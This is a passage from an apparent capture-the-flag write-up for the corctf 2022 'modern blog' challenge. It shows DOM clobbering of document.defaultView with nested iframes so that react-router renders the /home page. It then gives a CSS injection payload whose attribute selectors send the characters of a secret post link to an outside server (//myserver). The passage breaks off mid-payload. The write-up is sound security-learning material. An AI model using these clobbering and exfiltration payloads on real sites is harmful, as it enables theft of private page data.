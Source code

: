 So, let's update this to `document.defaultView.history.state.idx`:

``` html
<iframe name=defaultView srcdoc="
  <iframe name=history srcdoc=&quot;
    <iframe name=state srcdoc=&amp;quot;
      <a id='idx'></a>
    &amp;quot;></iframe>
  &quot;></iframe>
"></iframe>
```

After trying this in the browser, I realized it was not working.

Because `document.defaultView` is the `window` object of the iframe, so `document.defaultView.history` is the built-in history object instead of `<iframe name=history>`. We go back to what we started, we can't clobber `window.history` because it's already there.

At that moment, I also realized another thing.

Since `document.defaultView` is the `window` object of the iframe, what if I inject something like `<iframe name=defaultView src="/home">`?

By doing so, `document.defaultView.history` is the history object of the `home` page!

I tried this way immediately, and here is the result:

![result](/img/corctf-2022-modern-blog-writeup/p4.png)

That's amazing, I successfully render another React app with a different URL.

Here is the HTML code:

```html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

This works because `react-router` tries to use `document.defaultView.history` to manipulate the URL, including loading the correct page. Since we clobber `document.defaultView`, the `document.defaultView.history` is the history of `/home` page now, thus render `/home` page instead of `/`.

Do you remember what I said at the beginning? I said that if we can inject style to `/home` page, it's trivial to use CSS injection to steal the `href` attribute, it's exactly the case now.

Example:

```html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
```